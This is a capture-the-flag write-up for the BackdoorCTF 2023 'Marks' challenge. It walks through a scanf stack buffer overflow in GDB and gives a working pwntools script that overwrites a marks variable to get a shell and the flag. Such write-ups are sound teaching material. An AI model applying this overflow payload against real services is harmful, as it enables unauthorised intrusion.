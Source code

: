```yaml
---
title: Marks
date: 2023-12-16 20:41:00 + 0530
categories: [writeup, pwn]
tags: [BackdoorCTF2023]     # TAG names should always be lowercase
---
```


## The Challenge

> Score 100/100 to pass this exam
>
>Attachments: marks.zip
>
>nc 34.70.212.151 8004

## The Solution

Here's what happens when we run the binary
```console
$ ./chal
Enter your details to view your marks ...
Roll Number : 1
Name : VulnX
Please Wait ...

You got 20 marks out of 100
Any Comments ?
gimme_the_flag!! 
Thanks !
Next time get 100/100 marks for shell :)
$ 
```

On reverse engineering the main() function we find out that the program does the following:
1. Gives us a prompt and stores our roll number and name into local variables on the stack
2. Sleeps for 1s
3. Assigns a random number to `marks` variable and prints it out to the console.
4. It prompts us for `comments` (if any) and stores our input into a 64 byte buffer on the stack.
5. Then it compares the `marks` and if it is 100, then we get a shell, otherwise it rejects and exits.

Since it uses `scanf` for input, its pretty clear that we have a buffer overflow vulnerability.

Since `marks` is calculated before the `comments` is stored, we can use buffer overflow vulnerability to overwrite `marks` and insert 100 ( or 0x64 ) in that place.

All we need to do is precisely find out how many bytes will we need to overwrite stuff into the `marks` variable. To do that let's open the program in GDB and set a breakpoint at `main+310` and give our binary a cyclic pattern
```
$ gdb ./chal -q
Reading symbols from ./chal...
(No debugging symbols found in ./chal)
gdb-peda$ break * main+310
Breakpoint 1 at 0x1404

gdb-peda$ run
Starting program: /home/vulnx/Games/CTFs/BackdoorCTF/Beginner/Marks/chal
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Enter your details to view your marks ...
Roll Number : 1
Name : VulnX
Please Wait ...

You got 22 marks out of 100
Any Comments ?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Thanks !
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x61616172 ('raaa')
RBX: 0x7fffffffe6e8 --> 0x7fffffffe9d3 ("/home/vulnx/Games/CTFs/BackdoorCTF/Beginner/Marks/chal")
RCX: 0x7ffff7d00aa4 (<write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7ffff7e3b643 --> 0xe3c710000000000a
RDI: 0x7ffff7e3c710 --> 0x0
RBP: 0x7fffffffe5d0 ("uaaavaaawaaaxaaayaaa")
RSP: 0x7fffffffe560 --> 0x586e6c7556 ('VulnX')
RIP: 0x555555555404 (<main+310>:	cmp    eax,0x64)
R8 : 0x1
R9 : 0xa ('\n')
R10: 0xffffffffffffffff
R11: 0x202
R12: 0x0
R13: 0x7fffffffe6f8 --> 0x7fffffffea0a ("ALACRITTY_LOG=/tmp/Alacritty-2578215.log")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x555555554000 --> 0x10102464c457f
R15: 0x555555557d78 --> 0x555555555220 (<__do_global_dtors_aux>:	endbr64)
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555553f9 <main+299>:	mov    rdi,rax
   0x5555555553fc <main+302>:	call   0x5555555550e0 <puts@plt>
   0x555555555401 <main+307>:	mov    eax,DWORD PTR [rbp-0xc]
=> 0x555555555404 <main+310>:	cmp    eax,0x64
   0x555555555407 <main+313>:	je     0x55555555541a <main+332>
   0x555555555409 <main+315>:	lea    rax,[rip+0xc88]        # 0x555555556098
   0x555555555410 <main+322>:	mov    rdi,rax
   0x555555555413 <main+325>:	call   0x5555555550e0 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe560 --> 0x586e6c7556 ('VulnX')
0008| 0x7fffffffe568 --> 0x60000000a
0016| 0x7fffffffe570 --> 0x900000
0024| 0x7fffffffe578 --> 0x0
0032| 0x7fffffffe580 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0040| 0x7fffffffe588 ("caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0048| 0x7fffffffe590 ("eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
0056| 0x7fffffffe598 ("gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555555404 in main ()
gdb-peda$
```

> I generated that `aaaa...` pattern by using `$ cyclic 100`
{: .prompt-tip }

You can clearly see that the current instruction `=> 0x555555555404 <main+310>:	cmp    eax,0x64` is comparing the value in register eax with 0x64 ( or 100, in decimal ). This was supposed to store the `marks` variable but since our `comments` were 100 bytes instead of the allocated 64 bytes, the rest of the data got overwritten into nearby locations on the stack, one of them happens to be `marks`. The eax register holds the value for `marks` and is currently loaded with the value `RAX: 0x61616172 ('raaa')` proving that 0x61616172 is overwritten. Let's use this value to calculate the offset.
```console
$ cyclic -l 0x61616172
68
```

So anything after the first 64 bytes will be written over `marks`. Let's create an exploit script with this information.
```py
from pwn import *

p = remote('34.70.212.151', 8004)

p.sendlineafter(b'Roll Number : ', b'1')
p.sendlineafter(b'Name : ', b'VulnX')

offset = 68
payload  = b''
payload += b'A' * offset
payload += b'\x64'
p.sendlineafter(b'Any Comments ?\n', payload)
p.clean()

p.interactive()
```
{: file="get_flag.py" }

and let's give it a go
```console
> python get_flag.py
[+] Opening connection to 34.70.212.151 on port 8004: Done
[*] Switching to interactive mode
Thanks !
Cool ! Here is your shell !
$ ls
chal
flag.txt
$ cat flag.txt
flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}
```


## FLAG

`flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}`

